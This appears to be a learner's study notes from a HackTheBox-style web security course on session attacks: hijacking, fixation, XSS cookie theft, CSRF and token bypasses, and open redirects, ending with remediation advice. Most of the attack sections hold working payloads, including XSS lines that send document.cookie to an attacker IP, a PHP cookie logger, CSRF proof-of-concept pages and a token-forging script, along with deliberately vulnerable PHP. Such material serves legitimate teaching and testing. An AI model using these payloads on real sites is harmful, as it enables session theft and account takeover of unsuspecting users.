- [Session Security](#session-security)
  - [Intro](#intro)
    - [Session Identifier Security](#session-identifier-security)
    - [Session Attacks](#session-attacks)
  - [Session Attacks](#session-attacks-1)
    - [Session Hijacking](#session-hijacking)
      - [Example](#example)
        - [Part 1: Identify the session identifier](#part-1-identify-the-session-identifier)
        - [Part 2: Simulate an attacker](#part-2-simulate-an-attacker)
    - [Session Fixation](#session-fixation)
      - [Example](#example-1)
      - [Example of vulnerable code](#example-of-vulnerable-code)
    - [Obtaining Session Identifiers without User Interaction](#obtaining-session-identifiers-without-user-interaction)
      - [Obtaining Session Identifiers via Traffic Sniffing](#obtaining-session-identifiers-via-traffic-sniffing)
      - [Obtaining Session Identifiers Post-Exploitation](#obtaining-session-identifiers-post-exploitation)
        - [PHP](#php)
        - [Java](#java)
        - [.NET](#net)
      - [Obtaining Session Identifiers Post-Exploitation - Database Access](#obtaining-session-identifiers-post-exploitation---database-access)
    - [XSS](#xss)
      - [Example](#example-2)
        - [Obtaining session cookie through XSS](#obtaining-session-cookie-through-xss)
        - [Obtaining session cookies through XSS (Netcat edition)](#obtaining-session-cookies-through-xss-netcat-edition)
    - [CSRF](#csrf)
      - [Example](#example-3)
    - [CSRF - GET-based](#csrf---get-based)
      - [Example](#example-4)
    - [CSRF - POST-based](#csrf---post-based)
      - [Example](#example-5)
    - [XSS \& CSRF Chaining](#xss--csrf-chaining)
      - [Example](#example-6)
    - [Exploiting Weak CSRF Tokens](#exploiting-weak-csrf-tokens)
      - [Example](#example-7)
    - [Additional CSRF Protection Bypasses](#additional-csrf-protection-bypasses)
      - [Null Value](#null-value)
      - [Random CSRF Token](#random-csrf-token)
      - [Use Another Session's CSRF Token](#use-another-sessions-csrf-token)
      - [Request Method Tampering](#request-method-tampering)
      - [Delete the CSRF Token Parameter or send a blank Token](#delete-the-csrf-token-parameter-or-send-a-blank-token)
      - [Session Fixation \> CSRF](#session-fixation--csrf)
      - [Anti-CSRF Protection via the Referrer Header](#anti-csrf-protection-via-the-referrer-header)
      - [Bypass the RegEx](#bypass-the-regex)
    - [Open Redirect](#open-redirect)
      - [Example](#example-8)
  - [Remediation Advice](#remediation-advice)
    - [Session Hijacking](#session-hijacking-1)
    - [Session Fixation](#session-fixation-1)
      - [Examples](#examples)
        - [PHP](#php-1)
        - [Java](#java-1)
        - [.NET](#net-1)
    - [XSS](#xss-1)
      - [Validation of User Input](#validation-of-user-input)
      - [HTML Encoding to User-Controlled Output](#html-encoding-to-user-controlled-output)
      - [Additional Instructions](#additional-instructions)
    - [CSRF](#csrf-1)
    - [Open Redirect](#open-redirect-1)

---

# Session Security

## Intro

A user session can defined as a sequence of requests originating from the same client and the associated responses during a specific time period. Modern web apps need to maintain user sessions to keep track of information and status about each user. User sessions faciliate the assignment of access or authorization rights, localization settings, etc., while users interact with an app, pre, and post-authentication.

Each HTTP request should carry all needed information for the server to act upon it appropriately, and the session state resides on the client's side only.

### Session Identifier Security

A unique session identifier (_Session ID_) or token is the basis upon which user sessions are generated and distinguished.

If an attacker obtains a session identifier, this can result in session hijacking, where the attacker can essentially impersonate the victim in the web app. A session identifier can be:

- captured through passive traffic/packet sniffing
- identified in logs
- predicted
- brute forced

A session identifier's security level depends on its:

- Validity Scope (_a secure session identifier should be valid for one session only_)
- Randomnsess (_a secure session identifier should be generated through a robust number/string generation algorithm so that it cannot be predicted_)
- Validity Time (_a secure session identifier should expire after a certain amount of time_)

A session identifier's security level also depends on the location where it is stored:

| Location | Description |
| -------- | ----------- |
| URL | if this is the case, the HTTP _Referer_ header can leak a session identifier to other websites; in addition, browser history will also contain any session identifier stored in the URL |
| HTML | if this is the case, the session identifier can be identified in both the browser's cache memory and any intermediate proxies |
| sessionStorage | ... is a browser storage feature introduced in HTML5; session identifiers stored in sessionStorage can be retrieved as long as the tab or the browser is open; in other words, sessionStorage data gets cleared when the _page session_ ends; note that a page session survives over page reloads and restores |
| localStorage | ... is a browser storage feature introduced in HTML5; session identifiers stored in localStorage can be retrieved as long as localStorage does not get deleted by the user; this is because data stored within localStorage will not be deleted when the browser process is terminated, with the exception of "private browsing" or "incognito" sessions where data stored within localStorage are deleted by the time the last tab is closed |

### Session Attacks

Can be:

- Session Hijacking
- Session Fixation
- XSS
- CSRF
- Open Redirects

## Session Attacks

### Session Hijacking

In session hijacking attacks, the attacker takes advantage of insecure session identifiers, finds a way to obtain them, and uses them to authenticate to the server and impersonate the victim.

An attacker can obtain a victim's session identifier using several methods, with the most common being:

- passive traffic sniffing
- XSS
- browser history or log-diving
- read access to a database containing session information

#### Example

##### Part 1: Identify the session identifier

- log into app, using given creds
- use Web Dev Tools
- look for cookie that can be session identifier



##### Part 2: Simulate an attacker

- copy cookie
- open new private window
- insert copied cookie
- notice, you can log in without giving creds



### Session Fixation

... occurs when an attacker can fixate a (_valid_) session identifier. The Attacker will then have to trick the victim into logging into the application using the aforementioned session identifier. If the victim does so, the attacker can proceed to a Session Hijacking attack.

Such bugs usually occur when session identifiers are being accepted from URL Query Strings or Post Data.

Such attacks are usually mounted in three stages:

1. Attacker manages to obtain a valid session identifier
2. Attacker manages to fixate a valid session identifier
3. Attacke tricks the victim into establishing a session using the abovementioned session identifier

#### Example

1. Session fixation identification



If any value or a valid session identifier specified in the ```token``` parameter on the URL is propagated to the ```PHPSESSID``` cookie's value, you are probably dealing with a session fixation vuln.

2. Session fixation exploitation attempt



Notice that the ```PHPSESSID``` cookie's value is ```IControlThisCookie```. You are dealing with a Session Fixation vuln. An attacker could send a URL similar to the above to a victim. If the victim logs into the application, the attacker could easily hijack their session since the session identifier is already known.

#### Example of vulnerable code

```php
<?php
    if (!isset($_GET["token"])) {
        session_start();
        header("Location: /?redirect_uri=/complete.html&token=" . session_id());
    } else {
        setcookie("PHPSESSID", $_GET["token"]);
    }
?>
```

### Obtaining Session Identifiers without User Interaction

#### Obtaining Session Identifiers via Traffic Sniffing

Traffic Sniffing is something that most penetration testers do when asessing a network's security from the inside. It requires the attacker and the victim to be on the same local network. Then and only then can HTTP traffic be inspected by the attacker. It is impossible to perform traffic sniffing remotely.

1. Obtain the victim's cookie through packet analysis
   1. inside Wireshark, first, apply to see only HTTP traffic
   2. now search within the Packet bytes for any ```auth-session``` cookies
   3. navigate to ```Edit```, then to ```Find Packet```
   4. left click on ```Packet List```, then on ```Packet bytes```
   5. select string and specify ```auth-session```
   6. click ```find```
   7. copy the cookie by right-clicking on a row that contains it
   8. click ```copy```, then ```Value```


2. Hijack the victim's session
   1. back on the browser and change the current cookie's value into the obtained value
   2. refresh page

#### Obtaining Session Identifiers Post-Exploitation

During the post-exploitation phase, session identifiers and session data can be retrieved from either a web server's disk or memory.

##### PHP

The entry ```session.save_path``` in ```PHP.ini``` specifies where session data will be stored.

```bash
d41y@htb[/htb]$ locate php.ini
d41y@htb[/htb]$ cat /etc/php/7.4/cli/php.ini | grep 'session.save_path'
d41y@htb[/htb]$ cat /etc/php/7.4/apache2/php.ini | grep 'session.save_path'
```

A default config could store session data in ```/var/lib/php/sessions``` and could look like this:



The same PHP session identifier could look like this on a local setup:

```bash
d41y@htb[/htb]$ ls /var/lib/php/sessions
d41y@htb[/htb]$ cat //var/lib/php/sessions/sess_s6kitq8d3071rmlvbfitpim9mm
```



For a hacker to hijack the user session related to the session identifier above, a new cookie must be created in the web browser with the following values:

- cookie name: PHPSESSID
- cookie value: s6kitq8d3071rmlvbfitpim9mm

##### Java

"The Manager element represents the session manager that is used to create and maintain HTTP sessions of a web application.

Tomcat provides two standard implementations of Manager. The default implementation stores active sessions, while the optional one stores active sessions that have been swapped out in a storage location that is selected via the use of an appropriate ```Store``` nested element. The filename of the default session data file is ```SESSIONS.ser```."

[More info here!](https://tomcat.apache.org/tomcat-6.0-doc/config/manager.html)

##### .NET

Session data can be found in:

- the application worker process (_```aspnet_wp.exe```_)
- StateServer
- SQL Server

[More info here!](https://www.c-sharpcorner.com/UploadFile/225740/introduction-of-session-in-Asp-Net/)

#### Obtaining Session Identifiers Post-Exploitation - Database Access

In cases where you have direct access to a database, you should always check for any stored user sessions.

```sql
show databases;
use project;
show tables;
select * from users;
```



Here you can see the user's passwords are hashed. You could spend time trying to crack these; however, there is also a "all_sessions" table.

```sql
select * from all_sessions;
select * from all_sessions where id=3;
```



Here you have successfully extracted the sessions!

### XSS

For an XSS attack to result in session cookie leakge, the following requirements must be fulfilled:

- Session cookies should be carried in all HTTP requests
- Session cookies should be accessible by JS code

#### Example



In one field, you can specify the following payload:

```javascript
">
```

You are using ```document.domain``` to ensure that JS is being executed on the actual domain and not in a sandboxed environment. JS being executed in a sandboxed environment prevents client-side attacks.

In the remaining two fields, you specify the following two payloads.

```javascript
">
```

... and:

```javascript
">
```

You will need to update the profile by pressing "Save" to submit the payloads.




When successful, you notice no payload being triggered. Often the payload code is not going to be called/executed until another application functionality triggers it. Go to "Share", as it is the only other functionality you have, to see if any of the submitted payloads are retrieved in there. This functionality returns a publicly accessible profile. Identifying a stored XSS vuln in such a functionality would be ideal from an attacker's perspective.



Checking if HTTPOnly flag is set:



... and it's turned off.

##### Obtaining session cookie through XSS

You identified that you could create and share publicly accessible profiles that contain your specified XSS payloads.

The below PHP script can be hosted on a VPS to log cookies:

```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```

It can be run like this:

```bash
d41y@htb[/htb]$ php -S <VPN/TUN Adapter IP>:8000
[Mon Mar  7 10:54:04 2022] PHP 7.4.21 Development Server (http://<VPN/TUN Adapter IP>:8000) started
```

And the JS payload can be:

```javascript
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<VPN/TUN Adapter IP>:8000/log.php?c=' + document.cookie;"></video>
```

_A sample HTTPS>HTTPS payload can be_:

```javascript
<h1 onmouseover='document.write(``)'>test</h1>
```

To test it, you now need to simulate a victim that logs into his or her account and navigates to ```http://xss.htb.net/profile?email=ela.stienen@example.com```.

Brings you the cookie:

```bash
┌──(d41y㉿user)-[~/ctf/htb/vpns]
└─$ php -S 10.10.15.211:8000
[Thu Jun  5 16:54:16 2025] PHP 8.3.6 Development Server (http://10.10.15.211:8000) started
[Thu Jun  5 16:54:23 2025] 10.10.15.211:43762 Accepted
[Thu Jun  5 16:54:23 2025] 10.10.15.211:43762 [404]: GET /log.php?c=auth-session=s%3AxPy0i5ab8K2Kqxr7XX83jApGWqisXRzW.Lg3WQ4lXpdexxCKvvaTOFqqNu51TUJ%2F%2Bavh0PcCEmQI - No such file or directory
[Thu Jun  5 16:54:23 2025] 10.10.15.211:43762 Closing
[Thu Jun  5 16:54:23 2025] 10.10.15.211:43776 Accepted
[Thu Jun  5 16:54:23 2025] 10.10.15.211:43776 [404]: GET /favicon.ico - No such file or directory
[Thu Jun  5 16:54:23 2025] 10.10.15.211:43776 Closing
```

##### Obtaining session cookies through XSS (Netcat edition)

First, you need to place the payload into the vulnerable field and click "Save".

Payload:

```javascript
<h1 onmouseover='document.write(`:8000?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

Also, instruct Netcat to listen on port 8000:

```bash
d41y@htb[/htb]$ nc -nlvp 8000
listening on [any] 8000 ...
```

Simulating the victim and navigating to the shared profile of Ela, brings you the cookie when the victim hovers over "test":

```bash
┌──(d41y㉿user)-[~/ctf/htb/vpns]
└─$ nc -lnvp 8000        
Listening on 0.0.0.0 8000
Connection received on 10.10.15.211 56118
GET /?cookie=YXV0aC1zZXNzaW9uPXMlM0F4UHkwaTVhYjhLMktxeHI3WFg4M2pBcEdXcWlzWFJ6Vy5MZzNXUTRsWHBkZXh4Q0t2dmFUT0ZxcU51NTFUVUolMkYlMkJhdmgwUGNDRW1RSQ== HTTP/1.1
Host: 10.10.15.211:8000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: image/avif,image/webp,image/png,image/svg+xml,image/*;q=0.8,*/*;q=0.5
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://xss.htb.net/
Priority: u=4, i
```

You can no hijack the victim's session.

>[!TIP]
> You don't necessarily have to use the ```window.location()``` object that causes the victim to get redirected. You can use ```fetch()```, which can fetch data and send it to your server without any redirects. This is a stealthier way.<br>
> Example:<br>
> ```<script>fetch(`http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}`)</script>```

### CSRF

... is an attack that forces an end-user to execute inadvertent actions on a web application in which they are currently authenticated. This attack is usually mounted with the help of attacker-crafted web pages that the victim must visit or interact with. These web pages contain malicious requests that essentially inherit the identity and privileges of the victim to perform an undesired function on the victim's behalf.

A web app is vulnerable to CSRF when:

- all the parameters required for the targeted request can be determined or guessed by the attacker
- the application's session management is solely based on HTTP cookies, which are automatically included in browser request

To successfully exploit CSRF, you need:

- to craft a malicious web page that will issue a valid (_cross-site_) request impersonating the victim
- the victim to be logged into the application at the time when the malicious cross-site request is issued

#### Example

Log in with given credentials, activate Burpsuite and change the contact info.

Interception with Burp:



You notice no anti-CSRF token in the update-profile request. Now try executing a CSRF attack that will change her profile details by simply visiting another website.

Create and serve the below HTML:

```html
<html>
  <body>
    <form id="submitMe" action="http://xss.htb.net/api/update-profile" method="POST">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```

... and:

```bash
d41y@htb[/htb]$ python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
```

Open a new tab and visit the page you are serving from your attacking machine:



### CSRF - GET-based

Similar to how you can extract session cookies from applications that do not utilize SSL encryption, you can do the same regarding CSRF tokens included in unencrypted requests.

#### Example

Log on with given credentials. Browse to the profile and click "Save".



Activate Burp and click "Save" again.



The CSRF token is included in the GET request.

Now simulate an attacker on the local network that sniffed the abovementioned request and wants to deface Julie Rogers' profile through a CSRF attack.

First, create and serve the below HTML:

```html
<html>
  <body>
    <form id="submitMe" action="http://csrf.htb.net/app/save/julie.rogers@example.com" method="GET">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="hidden" name="action" value="save" />
      <input type="hidden" name="csrf" value="30e7912d04c957022a6d3072be8ef67e52eda8f2" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```

... and:

```bash
d41y@htb[/htb]$ python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
```

Open a new tab and visit the page you are serving from your attacking machine.



### CSRF - POST-based

#### Example

Log in with the given credentials and click on "Delete". You will get redirected to ```/app/delete/<your-email>```.




Notice that the email is reflected on the page. Try inputting some HTML into the email value, such as:

```html
<h1>h1<u>underline<%2fu><%2fh1>
```



If you inspect the source, you will notice that your injection happens before a ```'```. You can abuse this to leak the CSRF token.



First, instruct Netcat to listen on port 8000:

```bash
d41y@htb[/htb]$ nc -nlvp 8000
listening on [any] 8000 ...
```

Now you can get the CSRF token via sending the below payload:

```html
<table%20background='%2f%2f<VPN/TUN Adapter IP>:PORT%2f
```

While still loggen in as Julie Rogers, open a new tab and visit the ```http://csrf.htb.net/app/delete/%3Ctable background='%2f%2f<VPN/TUN Adapter IP>:8000%2f```. You will notice a connection being made that leaks the CSRF token.



### XSS & CSRF Chaining

#### Example

Log in with the given credentials, activate Burp and click "Make Public!".



... leads to:



Forward all requests so that Ela Stienen's profile becomes public.

The payload you need to specify in the _Country Field_ of Ela Stienen's profile to successfully execute CSRF:

```javascript
<script>
// part1: creates an ObjectVariable called req, which you will be using to generate a request
var req = new XMLHttpRequest();
// is allowing you to get ready to send HTTP requests
req.onload = handleResponse;
// the 'onload' event handler performs an action once the page has been loaded
req.open('get','/app/change-visibility',true);
// request method, targeted path, continuation of execution
req.send();
// will send everything you constructed in the HTTP request
// part1
// part2: defines a function called 'handleResponse'
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
    // defines a variable called 'token', which gets the value of 'responseText'
    // '/name="csrf" type="hidden" value="(\w+)"/)[1];' looks for a hidden input field called 'csrf' and \w+ matches one or more alphanumeric chars
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
    // changes the method from GET to POST
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    // sets 'Content-Type' to 'application/x-www-form-urlencoded'
    changeReq.send('csrf='+token+'&action=change');
    // sends the request with one param called 'csrf' having the value of the 'token' variable, and another called 'action' with the value 'change'
};
// part2
</script>
```

Now, try to make the victim's profile public.

First, submit the full payload to the _Country Field_ of Ela Stienen's profile and click "Save".



Open a new private window, navigate to the website again, and log in using different credentials.

This user has its profile "private". No "Share" functionality exists.



Open a new tab and browse Ela Stienen's public profile by navigating to ```http://minilab.htb.net/profile?email=ela.stienen@example.com```.

Now, if you go back to the victim's usual profile page and refresh/reload the page, you should see that his profile became "public".



You just executed a CSRF-attack through XSS, bypassing the _same origin/same site_ protections in place.

### Exploiting Weak CSRF Tokens

Often, web apps do not employ very secure or robust token generation algorithms.

#### Example

Log in with the given credentials, open Web Developer Tools, initiate a request and note the value of the CSRF token.



Execute the below command to calculate the MD5 hash of the string "goldenpeacock467" (_the username_):

```bash
d41y@htb[/htb]$ echo -n goldenpeacock467 | md5sum
0bef12f8998057a7656043b6d30c90a2  -
```

The resulting has is the same as the CSRF value. This means that the CSRF token is generated by MD5-hashing the username.

Find the malicious page you can use to attack other users below.

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta name="referrer" content="never">
    <title>Proof-of-concept</title>
    <link rel="stylesheet" href="styles.css">
    <script src="./md5.min.js"></script>
</head>

<body>
    <h1> Click Start to win!</h1>
    <button class="button" onclick="trigger()">Start!</button>

    <script>
        let host = 'http://csrf.htb.net'

        function trigger(){
            // Creating/Refreshing the token in server side.
            window.open(`${host}/app/change-visibility`)
            window.setTimeout(startPoc, 2000)
        }

        function startPoc() {
            // Setting the username
            let hash = md5("crazygorilla983")

            window.location = `${host}/app/change-visibility/confirm?csrf=${hash}&action=change`
        }
    </script>
</body>
</html>
```

For the malicious page to have MD5-hashing, save the below script and place it in the directory where the malicious page resides.

```javascript
!function(n){"use strict";function d(n,t){var r=(65535&n)+(65535&t);return(n>>16)+(t>>16)+(r>>16)<<16|65535&r}function f(n,t,r,e,o,u){return d((u=d(d(t,n),d(e,u)))<<o|u>>>32-o,r)}function l(n,t,r,e,o,u,c){return f(t&r|~t&e,n,t,o,u,c)}function g(n,t,r,e,o,u,c){return f(t&e|r&~e,n,t,o,u,c)}function v(n,t,r,e,o,u,c){return f(t^r^e,n,t,o,u,c)}function m(n,t,r,e,o,u,c){return f(r^(t|~e),n,t,o,u,c)}function c(n,t){var r,e,o,u;n[t>>5]|=128<<t%32,n[14+(t+64>>>9<<4)]=t;for(var c=1732584193,f=-271733879,i=-1732584194,a=271733878,h=0;h<n.length;h+=16)c=l(r=c,e=f,o=i,u=a,n[h],7,-680876936),a=l(a,c,f,i,n[h+1],12,-389564586),i=l(i,a,c,f,n[h+2],17,606105819),f=l(f,i,a,c,n[h+3],22,-1044525330),c=l(c,f,i,a,n[h+4],7,-176418897),a=l(a,c,f,i,n[h+5],12,1200080426),i=l(i,a,c,f,n[h+6],17,-1473231341),f=l(f,i,a,c,n[h+7],22,-45705983),c=l(c,f,i,a,n[h+8],7,1770035416),a=l(a,c,f,i,n[h+9],12,-1958414417),i=l(i,a,c,f,n[h+10],17,-42063),f=l(f,i,a,c,n[h+11],22,-1990404162),c=l(c,f,i,a,n[h+12],7,1804603682),a=l(a,c,f,i,n[h+13],12,-40341101),i=l(i,a,c,f,n[h+14],17,-1502002290),c=g(c,f=l(f,i,a,c,n[h+15],22,1236535329),i,a,n[h+1],5,-165796510),a=g(a,c,f,i,n[h+6],9,-1069501632),i=g(i,a,c,f,n[h+11],14,643717713),f=g(f,i,a,c,n[h],20,-373897302),c=g(c,f,i,a,n[h+5],5,-701558691),a=g(a,c,f,i,n[h+10],9,38016083),i=g(i,a,c,f,n[h+15],14,-660478335),f=g(f,i,a,c,n[h+4],20,-405537848),c=g(c,f,i,a,n[h+9],5,568446438),a=g(a,c,f,i,n[h+14],9,-1019803690),i=g(i,a,c,f,n[h+3],14,-187363961),f=g(f,i,a,c,n[h+8],20,1163531501),c=g(c,f,i,a,n[h+13],5,-1444681467),a=g(a,c,f,i,n[h+2],9,-51403784),i=g(i,a,c,f,n[h+7],14,1735328473),c=v(c,f=g(f,i,a,c,n[h+12],20,-1926607734),i,a,n[h+5],4,-378558),a=v(a,c,f,i,n[h+8],11,-2022574463),i=v(i,a,c,f,n[h+11],16,1839030562),f=v(f,i,a,c,n[h+14],23,-35309556),c=v(c,f,i,a,n[h+1],4,-1530992060),a=v(a,c,f,i,n[h+4],11,1272893353),i=v(i,a,c,f,n[h+7],16,-155497632),f=v(f,i,a,c,n[h+10],23,-1094730640),c=v(c,f,i,a,n[h+13],4,681279174),a=v(a,c,f,i,n[h],11,-358537222),i=v(i,a,c,f,n[h+3],16,-722521979),f=v(f,i,a,c,n[h+6],23,76029189),c=v(c,f,i,a,n[h+9],4,-640364487),a=v(a,c,f,i,n[h+12],11,-421815835),i=v(i,a,c,f,n[h+15],16,530742520),c=m(c,f=v(f,i,a,c,n[h+2],23,-995338651),i,a,n[h],6,-198630844),a=m(a,c,f,i,n[h+7],10,1126891415),i=m(i,a,c,f,n[h+14],15,-1416354905),f=m(f,i,a,c,n[h+5],21,-57434055),c=m(c,f,i,a,n[h+12],6,1700485571),a=m(a,c,f,i,n[h+3],10,-1894986606),i=m(i,a,c,f,n[h+10],15,-1051523),f=m(f,i,a,c,n[h+1],21,-2054922799),c=m(c,f,i,a,n[h+8],6,1873313359),a=m(a,c,f,i,n[h+15],10,-30611744),i=m(i,a,c,f,n[h+6],15,-1560198380),f=m(f,i,a,c,n[h+13],21,1309151649),c=m(c,f,i,a,n[h+4],6,-145523070),a=m(a,c,f,i,n[h+11],10,-1120210379),i=m(i,a,c,f,n[h+2],15,718787259),f=m(f,i,a,c,n[h+9],21,-343485551),c=d(c,r),f=d(f,e),i=d(i,o),a=d(a,u);return[c,f,i,a]}function i(n){for(var t="",r=32*n.length,e=0;e<r;e+=8)t+=String.fromCharCode(n[e>>5]>>>e%32&255);return t}function a(n){var t=[];for(t[(n.length>>2)-1]=void 0,e=0;e<t.length;e+=1)t[e]=0;for(var r=8*n.length,e=0;e<r;e+=8)t[e>>5]|=(255&n.charCodeAt(e/8))<<e%32;return t}function e(n){for(var t,r="0123456789abcdef",e="",o=0;o<n.length;o+=1)t=n.charCodeAt(o),e+=r.charAt(t>>>4&15)+r.charAt(15&t);return e}function r(n){return unescape(encodeURIComponent(n))}function o(n){return i(c(a(n=r(n)),8*n.length))}function u(n,t){return function(n,t){var r,e=a(n),o=[],u=[];for(o[15]=u[15]=void 0,16<e.length&&(e=c(e,8*n.length)),r=0;r<16;r+=1)o[r]=909522486^e[r],u[r]=1549556828^e[r];return t=c(o.concat(a(t)),512+8*t.length),i(c(u.concat(t),640))}(r(n),r(t))}function t(n,t,r){return t?r?u(t,n):e(u(t,n)):r?o(n):e(o(n))}"function"==typeof define&&define.amd?define(function(){return t}):"object"==typeof module&&module.exports?module.exports=t:n.md5=t}(this);
//# sourceMappingURL=md5.min.js.map
```

Now serve the page and the JS code from above from your attacking machine:

```bash
d41y@htb[/htb]$ python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
```

Open a new private tab, and log in as a different user (_the victim_).

While still logged in as Ela Stienen, open a new tab and visit the page you are serving from your attacking machine:



Now press "Start!". You notice that when Ela Stienen presses "Start!", her profile will become public.



### Additional CSRF Protection Bypasses

#### Null Value

You can try making the CSRF token a null value:

```
CSRF-Token:
```

This may work because sometimes, the check is only looking for the header, and it does not validate the token value. In such cases, you can craft you cross-site requests using a null CSRF token, as long as the header is provided in the request.

#### Random CSRF Token

Setting the CSRF token value to the same length as the original CSRF token but with a different/random value may also bypass some anti-CSRF protection that validates if the token has a value and the length of that value. For example, if the CSRF token were 32-bytes long, you would recreate a 32-byte token:

Real:

```
CSRF-Token: 9cfffd9e8e78bd68975e295d1b3d3331
```

Fake:

```
CSRF-Token: 9cfffl3dj3837dfkj3j387fjcxmfjfd3
```

#### Use Another Session's CSRF Token

Using the same CSRF token across accounts. This may work in apps that do not validate if the CSRF token is tied to a specific account or not and only check if the token is algorithmically correct.

Create two accounts and log into the first account. Generate a request and capture the CSRF token. Copy the token's value, for example, ```CSRF-Token=9cfffd9e8e78bd68975e295d1b3d3331```.

Log into the second account and change the value of CSRF token to ```9cfffd9e8e78bd68975e295d1b3d3331``` while issuing the same request. If the request is issued successfully, you can successfully execute CSRF attacks using a token generated through your account that is considered valid across multiple accounts.

#### Request Method Tampering

Ty bypass anti-CSRF protections, you can try changing the request method from POST to GET and vice versa.

For example, if the application is using POST, try changing it to GET:

```
POST /change_password
POST body:
new_password=pwned&confirm_new=pwned
```

... to:

```
GET /change_password?new_password=pwned&confirm_new=pwned
```

Unexpected requests may be served without the need for a CSRF token.

#### Delete the CSRF Token Parameter or send a blank Token

Not sending a token works fairly often because of the following common application logic mistake. Apps sometimes only check the token's validity if the token exists or if the token is not blank.

Real Request:

```
POST /change_password
POST body:
new_password=qwerty&csrf_token=9cfffd9e8e78bd68975e295d1b3d3331
```

... try:

```
POST /change_password
POST body:
new_password=qwerty
```

... or:

```
POST /change_password
POST body:
new_password=qwerty&csrf_token=
```

#### Session Fixation > CSRF

Sometimes, sites use something called a double-submit cookie as a defense against CSRF. This means that the sent request will contain the same random token both as a cookie and as a request parameter, and the server checks if the two values are equal. If the values are equal, the request is considered legitimate.

If the double-submit cookie is used as the defense mechanism, the app is probably not keeping the valid token on the server-side. It has no way of knowing if any token it receives is legitimate and merely checks that the token in the cookie and the token in the request body are the same.

If this is the case and a session fixation vulnerability exists, an attacker could perform a successful CSRF attack as follows:

1. Session fixation
2. Execute CRSF with the following request:

```http
POST /change_password
Cookie: CSRF-Token=fixed_token;
POST body:
new_password=pwned&CSRF-Token=fixed_token
```

#### Anti-CSRF Protection via the Referrer Header

If an app is using the referrer header as an anti-CRSF mechanism, you can try removing the referrer header. Add the following meta tag to your page hosting your CSRF script:

```
<meta name="referrer" content="no-referrer"
```

#### Bypass the RegEx

Sometimes the referrer has a whitelist regex or a regex that allows one specific domain.

Suppose that the referrer header is checking for _google.com_. You could try something like ```www.google.com.pwned.m3```, which may bypass the regex! If it uses its own domain (_target.com_) as a whitelist, try using the target domain as follows ```www.target.com.pwned.m3```.

You can try some of the following as well:

```www.pwned.m3?www.target.com``` or ```www.pwned.m3/www.target.com```.

### Open Redirect

... vuln occurs when an attacker can redirect a victim to an attacker-controlled site by abusing a legitimate app's redirection functionality. In such cases, all the attacker has to do is specify a website under their control in a redirection URL of a legitimate website and pass this URL to the victim.

Take a look:

```php
$red = $_GET['url'];
header("Location: " . $red);
```

In the line of code above, a variable called ```red``` is defined that gets its value from a parameter called ```url```. ```$_GET``` is a PHP superglobal variable that enables you to access the ```url``` parameter value.

The Location response header indicates the URL to redirect a page to. The line of code above sets the location to the value of ```red```, without any validation. You are facing an Open Redirect vuln here.

The malicious URL an attacker would send leveraging the Open Redirect vuln would look as follows:

```
trusted.site/index.php?url=https://evil.com
```

#### Example

If you enter an email account, you will notice that the application is eventually making a POST request to the page specified in the ```redirect_uri``` parameter. A ```token``` is also included in the POST request. This token could be a session or anti-CSRF token, and therefore, useful to an attacker.



Now, test if you can control the site where the ```redirect_uri``` parameter points to. In other words, check if the app performs the redirection without any kind of validation.

Set up a Netcat listener.

```bash
d41y@htb[/htb]$ nc -lvnp 1337
```

Change the url from:

```
http://oredirect.htb.net/?redirect_uri=/complete.html&token=<RANDOM TOKEN ASSIGNED BY THE APP>
```

... to:

```
http://oredirect.htb.net/?redirect_uri=http://<VPN/TUN Adapter IP>:PORT&token=<RANDOM TOKEN ASSIGNED BY THE APP>
```

Open a new private window and navigate to the link.

When the victim enters their email, you will notice a connection being made to your listener.



Open redirect vulns are usually exploited by attacker to create legitimate-looking phishing URLs. When a redirection functionality involves user tokens, attackers can also exploit open redirect vulns to obtain user tokens.

## Remediation Advice

### Session Hijacking

User session monitoring/anomaly detection solutions can detect session hijacking. It is a safer bet to counter session hijacking by trying to eliminate all vulns mentioned above.

### Session Fixation

... can be remediated by generating a new session identifier upon an authenticated operation. Simply invalidating any pre-login session identifier and generating a new one post-login should be enough.

#### Examples

##### PHP

```php
session_regenerate_id(bool $delete_old_session = false): bool
```

The above updates the current session identifier with a newly generated one. The current session information is kept.

##### Java

```java
...
session.invalidate();
session = request.getSession(true);
...
```

The above invalidates the current session and gets a new session from the request object.

##### .NET

```c#
...
Session.Abandon();
...
```

